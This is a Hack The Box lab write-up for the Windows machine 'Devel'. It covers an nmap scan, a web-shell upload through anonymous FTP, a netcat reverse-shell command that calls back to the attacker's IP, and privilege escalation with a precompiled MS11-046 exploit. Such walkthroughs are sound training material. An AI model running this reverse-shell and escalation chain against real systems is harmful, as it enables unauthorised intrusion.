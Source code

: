 ```yaml
---
layout: single
title: Devel - Hack The Box
excerpt: "Devel is an Windows machine that is cataloged as easy. In this case, we are going to take advantage of ftp (port 21) that allows anonymous login and let us as attackers upload a web shell and we will be in as the user 'iis appol \ web'. Then with a little help of Windows exploit suggester we get access as root user."
date: 2021-11-30
classes: wide
header:
  teaser: /assets/images/htb-writeup-Devel/logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:
  - easy
  - ftp
  - Windows Exploit suggester

---
```


![](/assets/images/htb-writeup-Devel/logo.png)

Devel is an Windows machine that is cataloged as easy. In this case, we are going to take advantage of ftp (port 21) that allows anonymous login and let us as attackers upload a web shell and we will be in as the user 'iis appol \web'. Then with a little help of Windows exploit suggester we get access as root user.

Machine IP = 10.10.10.5

The first thing I do is to setup my work environment with a Python script that I create which will tell me exactly what machine I'm attacking; At the same time it will create some directories that I normally use (nmap, content, exploit, notes).  

If you want to Clone this repository please refer to [initHack en github](https://github.com/W1nz4c4r/initHACK).

![](/assets/images/htb-writeup-Devel/initHACK.png)

## Port Scan
 After having everything setup I send the **nmap** command:
  * map -sS -sV -sC -p- -vvv -oA allPorts 10.10.10.5

```
Nmap 7.92 scan initiated Thu Nov 18 10:43:20 2021 as: nmap -sS -sV -sC -p- -vvv -oA allPorts 10.10.10.5
Nmap scan report for 10.10.10.5
Host is up, received echo-reply ttl 127 (0.060s latency).
Scanned at 2021-11-18 10:43:26 EST for 312s
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON          VERSION
21/tcp open  ftp     syn-ack ttl 127 Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 11-18-21  04:39AM                    7 hello.txt
| 03-17-17  04:37PM                  689 iisstart.htm
| 11-18-21  04:42AM                16392 shell.aspx
|_03-17-17  04:37PM               184946 welcome.png
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
|_http-title: IIS7
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Nov 18 10:48:38 2021 -- 1 IP address (1 host up) scanned in 317.55 seconds
```

## Enumeration

First thing that I usually like to check is if the **ftp** accepts anonymous login and in this case it does.

![](/assets/images/htb-writeup-Devel/ftp-log.png)

Then I check the web page (port 80) and I realized that what is on the FTP seems to be the home folder for the web server, This means that we can upload a webshell through the FTP and access to it form the browser.

![](/assets/images/htb-writeup-Devel/web-page.png)


## Gaining Foothold

We'll create a test file and check if we can upload files to the web server.
  * test.html:
```
<html>
  <h1> Test </h1>
</html>
```
upload the file through ftp:


 ![](/assets/images/htb-writeup-Devel/testFTP.png)

 then we go on our browser to **http://10.10.10.5/test.html** and we see that we can upload files to the web Server.


 ![](/assets/images/htb-writeup-Devel/testHTML.png)

 Now we are going to upload a web shell and we have command execution

 ![](/assets/images/htb-writeup-Devel/cmdWEB.png)


 Upload a nc.exe to the webpage so we can get a reverse Shell. once the **nc.exe** is uploaded on the web shell we run the following command to get a reverse shell.

    * \\10.10.14.9\mio\nc.exe -e cmd 10.10.14.9 443


![](/assets/images/htb-writeup-Devel/nc.png)

We are in as the user 'iis apppool\web' but we can't get the user or administrator credentials.

![](/assets/images/htb-writeup-Devel/noAccess.png)

## Privilege Escalation

Usually on windows machines what I do for privilege escalation is to run the 'systeminfo' command and check some information about the system.

```
Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          1/12/2021, 5:47:19 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     3.071 MB
Available Physical Memory: 2.474 MB
Virtual Memory: Max Size:  6.141 MB
Virtual Memory: Available: 5.549 MB
Virtual Memory: In Use:    592 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 3
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
                                 [02]: fe80::58c0:f1cf:abc6:bb9e
                                 [03]: dead:beef::1fc
```

Something that got my attention was that the system is running a windows 7 build 7600 which is a relatively old Os and most likely vulnerable to some exploits

![](/assets/images/htb-writeup-Devel/exploit.png)

I downloaded the exploit **MS11-046** already compiled from [github](https://github.com/abatchy17/WindowsExploits/tree/master/MS11-046). Once you already have the file you need to upload it to the attacked machine, in my case I did it with **impacket-smbserver**

![](/assets/images/htb-writeup-Devel/impakect.png)

Finally, run the exploit and you will be in as **root**.

![](/assets/images/htb-writeup-Devel/root.png)

